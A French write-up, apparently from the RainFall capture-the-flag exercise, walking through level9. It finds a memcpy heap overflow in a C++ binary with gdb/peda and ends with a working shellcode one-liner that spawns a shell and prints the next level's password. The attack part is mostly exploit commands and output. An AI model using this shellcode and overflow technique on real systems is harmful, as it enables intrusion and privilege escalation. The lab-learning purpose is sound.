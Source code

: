 ## Démarches

- Avec `objdump -d --demangle level9` ou gdb et la commande `info functions`, on remarque qu'il s'agit d'un programme écrit en C++
  ```
    [...]
    0x080485f4  main
    [...]
    0x080486f6  N::N(int)
    0x080486f6  N::N(int)
    0x0804870e  N::setAnnotation(char*)
    0x0804873a  N::operator+(N&)
    0x0804874e  N::operator-(N&)
    [...]
  ```

- Le programme prend un argument. Avec peda et la fonction de pattern, on peut déduire la taille allouée pour cet argument :
  - `pattern create 200`
    > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
  - `set args 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'`
  - `r`
  - `pattern search` (après le segfault)
    >     EAX+0 found at offset: 108

- La méthode `N::setAnnotation(char*)` fait appel à memcpy
  >  8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>

- On place un breakpoint à l'appel de la méthode `N::setAnnotation(char*)` :
  - `br *0x8048677`
  -  `set args $(python -c 'print("A"*108)')`
  - `r`
  - `info registers`
  - `x/20 0x804a008`
  - la chaine se remplit à partir de l'adresse `0x0804a010` en mémoire

- Avec un shellcode (cf level2), + padding (108 - (45 + 4))+ adresse du début de la copie

    ```
    level9@RainFall:~$ ./level9 $(python -c 'print("\x10\xa0\x04\x08"+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\x90"*59+"\x0c\xa0\x04\x08")')
    $ whoami
    bonus0
    $ pwd
    /home/user/level9
    $ cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    $ exit
    ```
<br>
----
## Ressources   